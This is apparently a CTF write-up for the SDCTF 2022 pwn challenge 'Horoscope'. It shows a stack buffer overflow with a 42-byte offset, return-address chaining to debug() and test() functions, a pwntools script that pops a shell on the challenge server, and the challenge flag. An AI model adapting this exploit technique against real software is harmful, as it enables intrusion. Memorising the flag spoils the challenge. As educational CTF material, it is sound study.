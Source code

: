 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2022 | Horoscope Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2022
parent: sdctf_2022
category: pwn
challenge: Horoscope
tags: "pwn, taz"
date: 2022-05-10T00:00:00+00:00
last_modified_at: 2022-05-10T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Sdctf 2022</h1>

## Horoscope
> Solved by: Taz34

Here we have a binary so the first thing i started to look for is to get a segmentation fault and we got it.


![](https://i.imgur.com/DQB46Va.png)


Now I started looking for offset so the offset multiple to be added is 42 
i.e.
 

    python3 -c "print('10/10/1999/10:' + '1'*42)"
    Hence the payload is: 10/10/1999/10:111111111111111111111111111111111111111111

Now we started looking at Ghidra, and we found a function “test” from which we can get a shell on target.

![](https://i.imgur.com/2LPxEzD.png)


here we have a problem that we need to make this (temp == 1) conditon true.
So, after going to other functions we found another function “debug”

![](https://i.imgur.com/NWfIhEj.png)


Now we can construct the final payload as:

    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + debug_fun_addr  + test_fun_addr

hence the final script:

    from pwn import *
    
    p = remote("horoscope.sdc.tf", 1337)
    
    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + p64(0x40096e) +p64(0x400950)
    
    p.sendline(payload)
    
    p.interactive()

now just execute this script to get the flag

![](https://i.imgur.com/QlX6mYU.png)

    Flag: sdctf{S33ms_y0ur_h0rO5c0p3_W4s_g00d_1oD4y}

